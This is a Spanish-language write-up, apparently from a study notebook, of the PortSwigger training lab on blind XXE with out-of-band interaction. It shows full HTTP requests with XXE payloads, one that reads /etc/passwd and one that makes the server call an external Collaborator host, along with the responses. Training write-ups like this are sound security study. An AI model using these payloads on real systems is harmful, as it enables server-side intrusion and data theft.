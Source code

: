```yaml
---
description: >-
  https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction
---
```


# Lab 3: Blind XXE with out-of-band interaction

Inicialmente se detecta la siguiente peticion al interactuar con el siguiente button:

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

La peticion generada es la siguiente:

{% code overflow="wrap" %}
```bash
POST /product/stock HTTP/2
Host: 0a06008903e3311885d9626000d50011.web-security-academy.net
Cookie: session=y07iamBVdzNDbapqbxpwPFM8Ohv5Ep9H
Content-Length: 107
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Content-Type: application/xml
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) 
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Origin: https://0a06008903e3311885d9626000d50011.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a06008903e3311885d9626000d50011.web-security-academy.net/product?productId=2
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=1, i

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>2</productId>
    <storeId>1</storeId>
</stockCheck>
```
{% endcode %}

Y la respuesta es:

```
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3

390
```

Si intentamos una inyeccion XXE, se puede apreciar que es BLIND:

```
POST /product/stock HTTP/2
Host: 0a06008903e3311885d9626000d50011.web-security-academy.net
Cookie: session=y07iamBVdzNDbapqbxpwPFM8Ohv5Ep9H
Content-Length: 176
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Content-Type: application/xml
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Origin: https://0a06008903e3311885d9626000d50011.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a06008903e3311885d9626000d50011.web-security-academy.net/product?productId=2
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=1, i

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

Y la respuesta es:

```
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 20

"Invalid product ID"
```

Teniendo en cuenta lo anterior, generamos un Collaborator para validar si existe un XXE sobre dicha peticion:

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Y luego de copiar el host del collaborator enviamos la siguiente peticion:

```
POST /product/stock HTTP/2
Host: 0a06008903e3311885d9626000d50011.web-security-academy.net
Cookie: session=y07iamBVdzNDbapqbxpwPFM8Ohv5Ep9H
Content-Length: 215
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Content-Type: application/xml
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Origin: https://0a06008903e3311885d9626000d50011.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a06008903e3311885d9626000d50011.web-security-academy.net/product?productId=2
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=1, i

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://tollpowjrziqr9faax6fz2kha8gz4pse.oastify.com"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

La respuesta de la peticion fue la siguiente:

```
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 20

"Invalid product ID"
```

Y luego de lo anterior, se detecta el siguiente trafico en el collaborator:

```
GET / HTTP/1.1
User-Agent: Java/21.0.1
Host: tollpowjrziqr9faax6fz2kha8gz4pse.oastify.com
Accept: */*
Connection: keep-alive
```
